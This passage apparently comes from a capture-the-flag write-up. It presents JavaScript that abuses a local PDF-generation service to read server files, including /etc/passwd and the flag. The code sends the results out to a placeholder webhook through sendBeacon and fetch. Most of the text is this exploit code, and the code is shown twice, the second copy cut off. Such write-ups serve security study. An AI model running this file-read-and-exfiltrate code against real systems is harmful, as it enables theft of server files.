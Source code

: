 ```javascript
const log = (lg) => {
	navigator.sendBeacon("WEBHOOK_URL", JSON.stringify(lg));
};

const logfile = async (blob) => {
	const fd = new FormData();
	fd.append("file", blob);
	await fetch("WEBHOOK_URL", {
		method: "POST",
		body: fd,
	});
};

const generatePDF = async (url) => {
	const params = new URLSearchParams();
	params.append("url", url);
	const u = await fetch(`http://localhost:3002/generate?${params.toString()}`);
	const b = await u.blob();
	return b;
};

const main = async () => {
	const blob = await generatePDF("https://example.com");
	await logfile(blob);
};

main();
```

After running `python pwn.py` I get the following pdf on my webhook.site:

![screenshot](https://i.imgur.com/umnG9UJ.png)

so it works! It also works with `file:///etc/passwd`:

![screenshot](https://i.imgur.com/niPz6HS.png)

Even though the challenge has evidently the RCE as the intended solution, we are able to read `file:///flag` and get the flag from the server.

```javascript
const log = (lg) => {
	navigator.sendBeacon("WEBHOOK_URL", JSON.stringify(lg));
};

const logfile = async (blob) => {
	const fd = new FormData();
	fd.append("file", blob);
	await fetch("WEBHOOK_URL", {
		method: "POST",
		body: fd,
	});
};

const generatePDF = async (url) => {
	const params = new URLSearchParams();
	params.append("url", url);
	const u = await fetch(`http://localhost:3002/generate?${params.toString()}`);
	const b = await u.blob();
	return b;
};

const main = async () => {
	try {
		log("start");
```